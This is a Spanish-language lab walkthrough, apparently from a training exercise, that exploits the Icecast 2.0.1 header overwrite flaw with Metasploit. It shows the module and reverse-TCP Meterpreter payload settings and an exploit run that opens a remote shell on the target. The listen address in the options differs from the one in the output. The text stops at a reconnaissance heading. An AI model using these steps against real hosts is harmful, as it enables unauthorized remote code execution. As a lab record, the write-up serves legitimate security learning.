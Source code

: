 **Descripción:** Icecast Header Overwrite – permite explotar la vulnerabilidad conocida en Icecast 2.0.1 para lograr ejecución remota de código.

Se verificaron las opciones del módulo con:

```bash
msf6 exploit(windows/http/icecast_header) > show options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.145.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

El exploit se configuró únicamente estableciendo `RHOSTS` y `LHOST`, ya que los valores por defecto del módulo para el resto de parámetros eran adecuados para el laboratorio.

## Ejecución del exploit

Posterior a la configuración, se ejecutó el módulo con:

```bash
msf6 exploit(windows/http/icecast_header) > exploit
[*] Started reverse TCP handler on 10.23.120.245:4444 
[*] Sending stage (177734 bytes) to 10.10.39.239
[*] Meterpreter session 1 opened (10.23.120.245:4444 -> 10.10.39.239:49187) at 2025-09-18 15:43:49 -0500

meterpreter >
```

## Obtención de shell tipo Meterpreter y reconocimiento inicial
